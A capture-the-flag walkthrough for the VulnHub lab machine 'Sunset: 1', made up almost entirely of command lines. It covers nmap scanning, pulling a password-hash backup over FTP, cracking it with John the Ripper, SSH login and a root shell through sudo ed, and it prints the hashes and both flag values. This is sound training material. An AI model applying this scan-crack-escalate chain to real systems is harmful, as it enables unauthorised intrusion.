










:::::::::::::::::::::::::: page
# Sunset: 1 {#sunset-1 .title}

\

## 

## Sunset: 1

- **[Sunset: 1]{style="color:#8ff0a4;"}** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/sunset-1,339/>

- Now unzip the file .
- Open ova file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#33d17a;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::

- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.115
:::

- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.115
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.115  
:::

1.  [FTP Enumeration]{style="color:#33d17a;"} :

- FTP Login :

::: codebox
    ftp 192.168.2.115
:::

- Check the file list :

::: codebox
    ls
:::

- Download the file :

::: codebox
    get backup
:::

- Read the backup file :

::: codebox
    cat backup
:::

- Found the credentials username and hashes :

::: codebox
    office:$6$$9ZYTy.VI0M7cG9tVcPl.QZZi2XHOUZ9hLsiCr/avWTajSPHqws7.75I9ZjP4HwLN3Gvio5To4gjBdeDGzhq.X.
    datacenter:$6$$3QW/J4OlV3naFDbhuksxRXLrkR6iKo4gh.Zx1RfZC2OINKMiJ/6Ffyl33OFtBvCI7S4N1b8vlDylF2hG2N0NN/
    sky:$6$$Ny8IwgIPYq5pHGZqyIXmoVRRmWydH7u2JbaTo.H2kNG7hFtR.pZb94.HjeTK1MLyBxw8PUeyzJszcwfH0qepG0
    sunset:$6$406THujdibTNu./R$NzquK0QRsbAUUSrHcpR2QrrlU3fA/SJo7sPDPbP3xcCR/lpbgMXS67Y27KtgLZAcJq9KZpEKEqBHFLzFSZ9bo/
    space:$6$$4NccGQWPfiyfGKHgyhJBgiadOlP/FM4.Qwl1yIWP28ABx.YuOsiRaiKKU.4A1HKs9XLXtq8qFuC3W6SCE4Ltx/
:::

- Hash Cracked :

::: codebox
    nano hash.txt
:::

- Cracked the hash file :

::: codebox
    john --wordlist=/opt/rockyou.txt hash.txt
:::

1.  [SSH Access]{style="color:#33d17a;"} :

- SSH login only sunset user :

::: codebox
    ssh sunset@192.168.2.115
:::

- Check file list :

::: codebox
    ls
:::

- Read the file :

::: codebox
    cat user.txt
:::

- Found the user flag :

::: codebox
    5b5b8e9b01ef27a1cc0a2d5fa87d7190
:::

1.  [Privilege Escalation]{style="color:#33d17a;"} :-

- Check sudo permissions: :

::: codebox
    sudo -l
:::

- Launch ed with sudo privileges :

::: codebox
    sudo ed
:::

- Spawn a root shell :

::: codebox
    !sh
:::

- Verify privileges :

::: codebox
    id
:::

- Root access was successfully achieved .

<!-- -->

- Navigate to the root directory :

::: codebox
    cd /root
:::

- 

::: codebox
    ls
:::

- Read the root flag :

::: codebox
    cat flag.txt
:::

- Found the root flag :

::: codebox
    25d7ce0ee3cbf71efbac61f85d0c14fe
:::

::::::::::::::::::::::::::
